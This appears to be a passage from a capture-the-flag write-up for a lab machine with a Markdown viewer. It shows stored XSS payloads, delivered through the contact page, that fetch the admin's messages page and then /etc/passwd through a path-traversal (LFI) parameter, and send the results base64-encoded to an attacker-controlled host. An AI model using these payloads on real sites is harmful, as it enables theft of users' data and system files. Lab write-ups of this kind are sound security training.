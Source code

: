 The code above uses `fetch("/messages", {method:'GET',mode:'no-cors',credentials:'same-origin'})` to make a get request to `/messages`.

Then it uses `.then(response => response.text())` to transform the response to text.

And with `.then(text => { fetch('http://attacker.ip/' + btoa(text), {mode:'no-cors'}); });` it sends the response to our machine in a base64 format using `btao`.

We put the script in a md file and send it.

![mess](5.png)

then we copy the link and send it using the contact page.

![contact](6.png)

We got the response back! Let's decode it and see what's there.

```html
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="stylesheet" href="css/style.css">
    <title>Alert - Markdown Viewer</title>
</head>
<body>
    <nav>
        <a href="index.php?page=alert">Markdown Viewer</a>
        <a href="index.php?page=contact">Contact Us</a>
        <a href="index.php?page=about">About Us</a>
        <a href="index.php?page=donate">Donate</a>
        <a href="index.php?page=messages">Messages</a>    </nav>
    <div class="container">
        <h1>Messages</h1><ul><li><a href='messages.php?file=2024-03-10_15-48-34.txt'>2024-03-10_15-48-34.txt</a></li></ul>
    </div>
    <footer>
        <p style="color: black;"> 2024 Alert. All rights reserved.</p>
    </footer>
</body>
</html>
```

The messages page loads a txt file with `messages.php?file=2024-03-10_15-48-34.txt`. Let's test if the file parameter vulnerable to LFI.

```js
<script>
fetch("/messages.php?file=../../../../../../etc/passwd", {method:'GET',mode:'no-cors',credentials:'same-origin'})
  .then(response => response.text())
  .then(text => { 
    fetch('http://10.10.16.8/' + btoa(text), {mode:'no-cors'}); 
  });
</script>
```
